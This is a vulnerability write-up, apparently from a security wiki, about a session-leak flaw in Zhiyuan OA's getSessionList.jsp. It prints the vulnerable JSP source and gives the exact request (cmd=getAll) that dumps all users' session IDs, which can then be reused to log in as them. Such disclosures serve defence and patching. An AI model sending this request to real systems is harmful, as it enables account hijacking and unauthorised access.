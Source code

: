 # Zhiyuan OA getSessionList.jsp Session leak vulnerability

## Vulnerability Description

When using a vulnerable request, the Session value of some users will be echoed, resulting in arbitrary login

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Unknown</span>

## Network surveying and mapping



## Vulnerability reappears

Source code with vulnerability

```java
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```



From the above code, we can see that when the cmd parameter is getAll, the SessionID of all users can be obtained and the request

```plain
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

There is a vulnerability in echo Session



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/zhiyuan-21.png)



You can log in to the system by replacing the Session



## 